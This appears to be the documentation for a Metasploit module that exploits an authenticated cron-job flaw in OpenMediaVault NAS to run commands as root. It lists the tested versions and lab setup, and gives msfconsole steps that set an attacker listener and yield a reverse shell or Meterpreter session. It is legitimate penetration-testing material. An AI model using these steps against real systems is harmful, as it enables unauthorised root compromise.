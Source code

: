 ## Vulnerable Application

This is a new module addressing an old vulnerability in OpenMediaVault, an open-source NAS solution.
The vulnerability exists within all OpenMediaVault versions starting from from `1.0.0` until the recent release `7.3.1-1`
and it allows an authenticated user to create cron jobs as root on the system.
An attacker can abuse this by sending a POST request via `rpc.php` to schedule and execute a cron entry
that runs arbitrary commands as root on the system.

The following releases were tested.

**OpenMediaVault x64 appliances:**
* openmediavault_1.9_amd64.iso
* openmediavault_2.0.13_amd64.iso
* openmediavault_2.1_amd64.iso
* openmediavault_3.0.2-amd64.iso
* openmediavault_3.0.26-amd64.iso
* openmediavault_3.0.74-amd64.iso
* openmediavault_4.0.9-amd64.iso
* openmediavault_4.1.3-amd64.iso
* openmediavault_5.0.5-amd64.iso
* openmediavault_5.5.11-amd64.iso
* openmediavault_5.6.13-amd64.iso
* openmediavault_6.0-16-amd64.iso
* openmediavault_6.0-34-amd64.iso
* openmediavault_6.0-amd64.iso
* openmediavault_6.0.24-amd64.iso
* openmediavault_6.5.0-amd64.iso
* openmediavault_7.0-20-amd64.iso
* openmediavault_7.0-32-amd64.iso

**ARM64 on Raspberry PI running Kali Linux 2024-3:**
* openmediavault 7.3.0-5

## Installation steps to install OpenMediaVault NAS appliance
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download the OpenMediaVault iso images from [here](https://sourceforge.net/projects/openmediavault/files/iso/).
* Install the iso image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options.
* Boot up the VM and should be able to access the OpenMediaVault appliance.
* Either thru the console, `ssh` on port `22` or using the `webui` via `http://your_openmediavault_ip`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/openmediavault_auth_cron_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings
